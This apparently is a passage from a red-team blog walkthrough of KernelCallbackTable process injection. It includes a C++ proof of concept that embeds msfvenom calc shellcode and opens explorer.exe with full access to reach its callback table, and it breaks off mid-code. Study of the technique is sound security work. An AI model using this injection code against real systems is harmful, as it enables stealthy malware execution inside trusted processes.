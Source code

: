```yaml
---
layout: post
title: "Adventures with KernelCallbackTable Injection"
date: 2022-04-21
categories: [redteam, maldev]
description: "A walkthrough on how I made KernelCallbackTable process injection work according to what I wanted."
header-img: /static/img/2022-04-21-kernelcallbacktable-injection/kct-injection-worked.gif
image: /static/img/2022-04-21-kernelcallbacktable-injection/kct-injection-worked.gif
---
```


Lately, I came across with `KernelCallbackTable` which could be abused to inject shellcode in a remote process. This method of process injection was used by [FinFisher/FinSpy](https://www.microsoft.com/security/blog/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/) and [Lazarus](https://blog.malwarebytes.com/threat-intelligence/2022/01/north-koreas-lazarus-apt-leverages-windows-update-client-github-in-latest-campaign/).

This post walks through the journey I took and the hurdles I encountered to make process injection via `KernelCallbackTable` work according to what I wanted.  

## The Problems

When I Googled about this technique, the very first result that I got was none other than the [post](https://modexp.wordpress.com/2019/05/25/windows-injection-finspy/) written by [modexpblog](https://twitter.com/modexpblog). So for this experiment, I used the [code](https://github.com/odzhan/injection/blob/master/kct/kct.c) he provided as my basis and slightly modified it.

```cpp
#include <Windows.h>
#include <stdio.h>
#include "struct.h"

int main()
{
	// msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f c
	unsigned char payload[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";
	SIZE_T payloadSize = sizeof(payload);

	// Find a window for explorer.exe
	HWND hWindow = FindWindow(L"Shell_TrayWnd", NULL);
	printf("[+] Window Handle: 0x%p\n", hWindow);

	// Obtain the process pid and open it
	DWORD pid;
	GetWindowThreadProcessId(hWindow, &pid);
	printf("[+] Process ID: %d\n", pid);

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
	printf("[+] Process Handle: 0x%p\n", hProcess);

	// Read PEB and KernelCallBackTable addresses
	PROCESS_BASIC_INFORMATION pbi;
```